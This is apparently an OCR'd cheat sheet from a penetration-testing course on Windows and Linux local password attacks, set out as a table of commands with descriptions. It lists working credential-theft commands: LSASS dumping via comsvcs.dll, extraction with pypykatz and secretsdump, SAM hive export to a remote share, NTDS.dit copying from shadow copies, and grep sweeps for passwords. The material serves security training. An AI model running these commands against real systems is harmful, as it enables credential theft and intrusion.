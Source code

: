 | Command                                                                                      | Description                                                                                                                |
|----------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------|
| `tasklist /svc`                                                                              | A command-line-based utility in Windows used to list running processes.                                                    |
| `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml`              | Uses Windows command-line based utility findstr to search for the string "password" in many different file type.           |
| `Get-Process lsass`                                                                          | A Powershell cmdlet is used to display process information. Using this with the LSASS process can be helpful when attempting to dump LSASS process memory from the command line. |
| `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full`                   | Uses rundll32 in Windows to create a LSASS memory dump file. This file can then be transferred to an attack box to extract credentials. |
| `pypykatz lsa minidump /path/to/lsassdumpfile`                                               | Uses Pypykatz to parse and attempt to extract credentials & password hashes from an LSASS process memory dump file.         |
| `reg.exe save hklm\sam C:\sam.save`                                                          | Uses reg.exe in Windows to save a copy of a registry hive at a specified location on the file system. It can be used to make copies of any registry hive (i.e., hklm\sam, hklm\security, hklm\system). |
| `move sam.save \\<ip>\NameofFileShare`                                                       | Uses move in Windows to transfer a file to a specified file share over the network.                                         |
| `python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`     | Uses Secretsdump.py to dump password hashes from the SAM database.                                                          |
| `vssadmin CREATE SHADOW /For=C:`                                                             | Uses Windows command line based tool vssadmin to create a volume shadow copy for C:. This can be used to make a copy of NTDS.dit safely. |
| `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit` | Uses Windows command line based tool copy to create a copy of NTDS.dit for a volume shadow copy of C:.                       |

# Linux Local Password Attacks

| Command                                                                                      | Description                                                                                                                |
|----------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------|
| `for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null \| grep -v "lib\|fonts\|share\|core" ;done` | Script that can be used to find .conf, .config and .cnf files on a Linux system.                                           |
| `for i in $(find / -name *.cnf 2>/dev/null \| grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null \| grep -v "\#";done` | Script that can be used to find credentials in specified file types.                                                      |
| `for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null \| grep -v "doc\|lib\|headers\|share\|man";done` | Script that can be used to find common database files.                                                                     |
| `find /home/* -type f -name "*.txt" -o ! -name "*.*"`                                        | Uses Linux-based find command to search for text files.                                                                    |
| `for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null \| grep -v "doc\|lib\|headers\|share";done` | Script that can be used to search for common file types used with scripts.                                                |
| `for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null \| grep -v "lib\|fonts\|share\|core" ;done` | Script used to look for common types of documents.                                                                        |
| `cat /etc/crontab`                                                                          | Uses Linux-based cat command to view the contents of crontab in search for credentials.                                     |
| `ls -la /etc/cron.*/`                                                                       | Uses Linux-based ls -la command to list all files that start with cron contained in the etc directory.                      |
|
